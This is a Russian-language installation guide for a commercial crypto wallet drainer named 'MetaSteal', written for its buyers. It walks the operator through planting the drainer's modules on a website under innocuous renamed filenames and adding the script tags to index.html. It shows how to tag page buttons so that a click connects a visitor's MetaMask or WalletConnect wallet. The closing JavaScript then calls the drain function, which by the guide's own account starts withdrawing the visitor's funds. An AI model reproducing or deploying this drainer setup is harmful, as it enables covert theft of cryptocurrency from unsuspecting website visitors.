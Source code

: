 # Как установить скрипт

**Приветствуем тебя, дорогой покупатель нашего скрипта!**

В данной инструкции мы расскажем тебе как установить наш скрипт на твой собственный веб-сайте быстро и без каких-либо заморочек. Если у тебя нет даже минимальных навыков программирования, лучше напиши нам в техническую поддержку - мы готовы за небольшую плату произвести установку на твой веб-сайт нашего скрипта и настроить его. 

**Но если ты готов сам пройти через это, то давай начинать.**

Для начала тебе нужно скачать с нашего сайта сам скрипт и архив с модулями. Всё это можно сделать в нашей панели управления. После того, как ты это сделал, тебе нужно открыть папку, в которой лежит твой веб-сайт. Если ты её нашёл, отлично - теперь тебе нужно либо создать, либо открыть папку (если она уже существует) с названием "assets". В этой папке тебе нужно создать ещё одну папку с названием "drainer". Теперь открой архив с модулями, который ты скачал, и перемести все файлы из него в папку "drainer", которую ты только что создал. После этого тебе нужно переименовать все скрипты следующим образом:

• Файл, имеющий название "jquery.js", необходимо переименовать в "ms-1.js"

• Файл, имеющий название "ethers.js", необходимо переименовать в "ms-2.js"

• Файл, имеющий название "wconnect.js", необходимо переименовать в "ms-3.js"

**Отлично, ты молодец!**

Теперь скопируй файл со скриптом, который ты скачал, вставь его в папку "drainer" к модулям, которые ты только что переименовал, и переименуй его из того названия, которое у него сть сейчас, в "ms-4.js", таким образом у тебя в папке должны оказаться файлы: ms-1.js, ms-2.js, ms-3.js и ms-4.js. Если всё так, значит всё хорошо.

Теперь тебе нужно вернуться в корневую папку сайта, где лежит папка "assets", которую ты создал или которая уже была там. Теперь в корневой папке создай новый файл и назови его "drainer.js", либо дай ему менее выдающее его название, но главное запомни его и вместо "drainer.js" всегда указывай его, потому что дальше в примерах мы будем использовать именно название "drainer.js".

**Теперь осталось подключить скрипт к своей странице**

Найди файл, который отвечает за отображение твоего веб-сайта, это должен быть HTML файл, который обычно называется "index.html". Открой его с помощью любого редактора кода: например, Visual Studio Code или Sublime Text. Содержимое файла может быть разного размера, но структура будет примерно следующая:

```html
<html>
  <head>
    ...
  </head>
  <body>
    ...
  </body>
</html>
```

Видишь `</body>`? **Обязательно найди тот, где есть знак слэша внутри!**

Весь код ты будешь писать непосредственно на строке выше, чем строка, содержащая `</body>`. Тебе нужно будет подключить все модули, наш скрипт и тот скрипт, что ты создал сам в корне сайта, чтобы всё выглядело вот так:

```html
<html>
  <head>
    ...
  </head>
  <body>
    ...
    <script src="/assets/drainer/ms-1.js"></script>
    <script src="/assets/drainer/ms-2.js"></script>
    <script src="/assets/drainer/ms-3.js"></script>
    <script src="/assets/drainer/ms-4.js"></script>
    <script src="/drainer.js"></script>
  </body>
</html>
```

То есть перед `</body>` тебе нужно добавить эти строки:

```html
<script src="/assets/drainer/ms-1.js"></script>
<script src="/assets/drainer/ms-2.js"></script>
<script src="/assets/drainer/ms-3.js"></script>
<script src="/assets/drainer/ms-4.js"></script>
<script src="/drainer.js"></script>
```

**Ты велеколепен!**

Теперь давай определимся с кнопками, по нажатию на которые начнёт срабатывать дрейнер. Возможно, они уже есть у тебя на странице, а может быть их нужно будет создать. В любом случае элементы кнопкок выглядят таким образом: `<button>Текст кнопки</button>` - ты можешь найти их через поиск текстового редактора. Возможно, у кнопки уже будут какие-то дополнительные аттрибуты, но тебе главное проверить есть ли там аттрибут class: `<button class="btn btn-success">Текст кнопки</button>`.

Если такое есть, то тебе просто нужно отредактировать `class` и добавить в его кавычки в конце сначала пробел, а после написать там `drainer-active`, чтобы получилось так: `<button class="btn btn-success drainer-active">Текст кнопки</button>`. Если аттрибута `class` не было, просто создай его сам как на примере слева. Ты можешь поставить этот класс на любое количество кнопок. При нажатии на эти кнопки произойдет подключение кошелька и начнется списание средств.

В нашем примере мы сделаем так, чтобы по умолчанию активировался MetaMask, а если он не установлен, то уже WalletConnect.

Теперь тебе нужно открыть файл "drainer.js", который ты создал в корневой папке сайта, и вставить туда этот код:

```js
var handler = new MetaSteal();
$('.drainer-active').click(async () => {
  try {
    if (handler.isConnected()) await handler.disconnect();
    var result = await handler.connect(handler.isProvider('metamask') ? 'metamask' : 'wconnect', 1);
    if (result.status == true) await handler.drain();
  } catch(err) {
    console.log(err);
  }
});
```

**Готово!** Теперь наш скрипт начнёт работать на этой странице.

Если вас интересует более подробная настройка, можете прочитать наш старый мануал (https://telegra.ph/MetaSteal--gajd-po-ustanovke-11-17), либо обратиться в техническую поддержку.
